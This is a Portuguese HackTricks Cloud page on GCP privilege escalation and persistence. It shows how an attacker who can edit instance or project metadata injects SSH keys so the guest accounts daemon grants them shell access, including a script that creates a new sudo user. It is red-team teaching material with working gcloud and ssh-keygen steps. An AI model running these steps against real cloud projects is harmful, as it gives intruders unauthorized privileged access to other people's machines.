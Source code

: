 # GCP - Adicionar Metadados SSH Personalizados

## GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos de segurança significativos se um atacante obtiver as permissões necessárias**.

#### **Incorporação de Chaves SSH em Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um atacante puder modificar metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada ao sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o atacante poderá comprometer o host.

#### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existentes na Instância:**
*   Execute o comando para descrever a instância e seus metadados para localizar chaves SSH existentes. A seção relevante na saída estará sob `metadata`, especificamente a chave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separado por dois pontos.
2. **Preparar um Arquivo de Texto para Metadados da Chave SSH:**
* Salve os detalhes dos nomes de usuários e suas respectivas chaves SSH em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes enquanto adiciona novas.
3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
*   Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.
4. **Atualizar os Metadados da Chave SSH da Instância:**
*   Aplique os metadados atualizados da chave SSH à instância usando o comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acessar a Instância Usando a Nova Chave SSH:**
*   Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chaves SSH em nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem **aplicando chaves SSH em nível de projeto**. Essa abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em nível de projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH em Nível de Projeto:**
*   Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH de `meta.txt` aos metadados do projeto. Essa ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em nível de projeto" habilitada.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH em Instâncias Usando Chaves em Nível de Projeto:**
* Com as chaves SSH em nível de projeto em vigor, você pode SSH em qualquer instância dentro do projeto. Instâncias que não bloqueiam chaves em nível de projeto aceitarão a chave SSH, concedendo acesso.
* Um método direto para SSH em uma instância é usar o comando `gcloud compute ssh [INSTANCE]`. Este comando usa seu nome de usuário atual e as chaves SSH definidas em nível de projeto para tentar o acesso.

## Referências

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
